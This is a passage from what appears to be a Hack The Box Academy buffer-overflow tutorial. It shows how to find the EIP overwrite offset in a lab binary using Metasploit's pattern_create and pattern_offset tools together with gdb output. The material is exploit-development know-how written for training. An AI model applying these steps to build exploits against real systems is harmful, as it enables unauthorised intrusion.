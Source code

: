 If we want to imagine the process visually, then the process looks something like this:

![image](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_2.png)

This means that we have to write access to the EIP. This, in turn, allows specifying to which memory address the EIP should jump. However, to manipulate the register, we need an exact number of U's up to the EIP so that the following 4 bytes can be overwritten with our desired memory address.

## Determine the Offset
How many bytes are needed to overwrite the buffer and how much space we have around our shellcode.

- Create pattern:

```bash
Pietra@htb[/htb]$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt
Pietra@htb[/htb]$ cat pattern.txt

Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9
```

Now we replace our 1200 "`U`"s with the generated patterns and focus our attention again on the EIP.

- Using generated pattern:

```
(gdb) run $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'") 

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'")
Program received signal SIGSEGV, Segmentation fault.
0x69423569 in ?? ()
```

```
(gdb) info registers eip

eip            0x694235690x69423569
```

We see that the `EIP` displays a different memory address, and we can use another MSF tool called "`pattern_offset`" to calculate the exact number of characters (offset) needed to advance to the `EIP`.

- Offset:

```
Pietra@htb[/htb]$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569

[*] Exact match at offset 1036
```

